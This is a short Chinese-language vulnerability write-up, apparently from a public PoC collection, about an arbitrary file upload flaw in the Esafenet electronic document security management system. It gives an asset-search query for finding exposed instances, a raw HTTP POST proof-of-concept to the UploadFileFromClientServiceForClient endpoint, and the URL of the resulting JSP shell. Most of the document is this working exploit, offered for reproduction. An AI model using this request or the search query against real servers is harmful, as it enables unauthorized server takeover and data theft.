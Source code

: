 # 

# 亿赛通 电子文档安全管理系统 UploadFileFromClientServiceForClient 任意文件上传漏洞

## 漏洞描述

亿赛通 电子文档安全管理系统 UploadFileFromClientServiceForClient 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，获取主机权限。

参考链接：

- https://github.com/di0xide-U/YSTupload/blob/main/exp.md

## 漏洞影响

亿赛通 电子文档安全管理系统

## 网络测绘

```
app="亿赛通-电子文档安全管理系统"
```

## 漏洞复现

登录页面

![image-20230828111346925](images/image-20230828111346925.png)

验证POC

```
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Content-Length: 1

Test
```

![image-20230828111455826](images/image-20230828111455826.png)

```
Shell访问地址：https://your-ip/tttT.jsp
```


